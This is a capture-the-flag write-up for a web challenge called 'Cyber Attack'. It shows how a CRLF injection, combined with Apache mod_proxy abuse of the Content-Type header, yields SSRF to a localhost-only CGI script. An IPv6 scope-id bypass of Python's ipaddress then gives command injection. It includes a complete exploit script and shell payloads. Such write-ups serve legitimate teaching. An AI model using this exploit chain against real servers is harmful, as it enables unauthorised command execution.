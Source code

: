 # Cyber Attack

> Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.

**Difficulty:** Easy  
**Source Code:** Provided  
**Techniques used:** CRLF Injection to force SSRF via Content-Type, and Command Injection

Alright, this challenge almost made me give **up on** the CTF. After finishing the [Trial By Fire](../trail_by_fire/writeup-en.md), I went straight to this one... and nothing. Gave up on the challenge and jumped into the [Eldoria Panel](../eldoria_panel/writeup-en.md), which I also failed. That was it for the day. I only got back to this challenge on Sunday morning.

It's basically a simple PHP app with one main functionality: attacking a specific target. You can attack via domain or IP. The attack logic is implemented in Python CGI, one script for domains, one for IPs.

Domain attack can be found in `src/cgi-bin/attack-domain`
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

IP attack can be found in `src/cgi-bin/attack-ip`
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

The IP-based attack is blocked by the Apache reverse proxy, as we can see in `apache/apache2.conf`
```conf
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

That means one thing: you can try bypassing the regex, but you'll fail. So, we either need to bypass the Apache configuration or find another way in.

I found a `CRLF injection` in the `Location:` header in both scripts, but I couldn’t do anything useful with it at first.

I had already lost a few hours on Friday trying to bypass the regex and abuse the `CRLF injection` in the response and got nowhere.

So I changed my approach. Instead of the classic "try and fail", I started doing some research and chatting with my buddy Gpeto(a.k.a. ChatGPT). I even tried digging directly into the config files. When that didn’t work either, I almost gave up again, but then I decided to check the `Dockerfile`. Same approach: search for anything interesting, any keywords.

That’s when I stumbled on this line:  `RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http` 
And that’s when things started to get weird. Really weird.

Because someone — somewhere in the world — thought it would be a great idea for the `mod_proxy` module to allow proxying based on the **Content-Type** header. I’m not kidding.

I found this insanity in Carlos Polop’s amazing blog [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/apache.html?highlight=mod_proxy#arbitrary-handler-to-full-ssrf).

After that, things started to fall into place. All I needed was a way to bypass the `ip_address` function. I started looking into the IPv4 validation — nothing interesting. Then I moved on to IPv6, and right away, something caught my eye.

The validation checks if there’s a `/` in the address. If not, it calls `self._split_scope_id`:
```python
addr_str = str(address)
if '/' in addr_str:
	raise AddressValueError("Unexpected '/' in %r" % address)
addr_str, self._scope_id = self._split_scope_id(addr_str)
```

And the method will split the address by scope using `%`, so we just need to pass `::1%$(whoami)`
```python
@staticmethod
def _split_scope_id(ip_str):
	"""Helper function to parse IPv6 string address with scope id.

	See RFC 4007 for details.

	Args:
		ip_str: A string, the IPv6 address.

	Returns:
		(addr, scope_id) tuple.

	"""
	addr, sep, scope_id = ip_str.partition('%')
	if not sep:
		scope_id = None
	elif not scope_id or '%' in scope_id:
		raise AddressValueError('Invalid IPv6 address: "%r"' % ip_str)
	return addr, scope_id
```

We need to worry about the `/`, so my first idea was to use base64 — but I ran into some issues because the payload was being converted to lowercase.  
So I went with hex instead and passed the command I needed that way.

Just send something like `::1$($(python -c "print('{cmd}')"|sh)`. Just be careful with the encoding.  
In the script, I used a raw `socket` connection to send the HTTP request because I needed full control over the encoding.

Here's the full script:
```python
import argparse
import socket
import urllib.parse
import requests
import urllib

parser = argparse.ArgumentParser()
parser.add_argument("--host", type=str, default="localhost", help="Target Host")
parser.add_argument("--port", type=str, default="1337", help="Target Port")
parser.add_argument("--cmd", type=str, default="cp /flag*txt /var/www/html/flag.txt", help="Command to execute on the server")

args = parser.parse_args()

hex_str = args.cmd.encode().hex()
cmd = urllib.parse.quote(''.join(f'\\x{hex_str[i:i+2]}' for i in range(0, len(hex_str), 2)))

payload = f"""
Location:+/nope
Content-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(python3%2b-c%2b"print('{cmd}')"|sh)%26name=BB

""".replace('\n','%0d%0a')
s = socket.create_connection((args.host, int(args.port)))
req = f"""GET /cgi-bin/attack-domain?target=-&name={payload} HTTP/1.1
Host: {args.host}

""".replace('\n','\r\n')
s.sendall(req.encode())
_ = s.recv(4096).decode()
s.close()

response = requests.get(f"http://{args.host}:{args.port}/flag.txt")
print(response.text)
```

After running the script, the flag was successfully retrieved:
![Flag](imgs/flag.png)

>**Note:** I missed the timing to write the write-ups and the after party is over, so the challenge is now running locally on my machine.  
>But I swear it works, really works.